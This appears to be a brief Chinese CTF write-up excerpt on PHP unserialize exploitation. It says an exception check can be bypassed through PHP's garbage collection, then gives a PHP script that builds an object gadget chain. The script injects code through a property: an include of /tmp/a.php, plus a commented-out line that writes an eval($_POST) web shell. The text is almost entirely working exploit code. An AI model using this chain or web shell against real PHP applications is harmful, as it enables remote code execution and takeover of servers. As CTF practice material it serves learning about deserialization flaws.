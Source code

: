 其中`throw new Exception("None");`，用GC回收机制可以绕过

- [浅析PHP GC垃圾回收机制及常见利用方式 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/11843?u_atoken=dbe66aa09339845c2083d43ed52adf34&u_asig=1a0c384917311654822547467e013a&time__1311=eqmx9DcDBDgDn0WeDsD7Iq0%3DGO3aFFc9qqID#toc-0)

wakeup不用管，只需要把love设置为命令即可

```

<?php
class lhRaMK7{
    public $Do="phpinfo();";
    public $You;
    public $love;
    public $web;
}

class Parar{
    private  $execurise="man!";
    public $lead;
    public $hansome;

    public function getexe(){
        return $this->execurise;
    }
}

class Starven{
    public $girl;
    public $friend;

}
class SYC{
    private $lover="123";
    public  $forever;

    function getlover(){
        return $this->lover;
    }

    public function __isset($args){
        echo "__isset";
    }

}

$l=new lhRaMK7();
$p=new Parar();
$star=new Starven();

$syc=new SYC();

$l->You=$p;
$p->lead=$star;
$star->girl=$p;
$p->hansome=&$syc;
$syc->forever=$star;
$star->friend=$l;

//命令
$l->love="include '/tmp/a.php';"; //$l->love = "file_put_contents('/tmp/a.php', '<?php eval(\$_POST[\\'a\\']); ');";

$ser=serialize(array($l,new lhRaMK7()));
```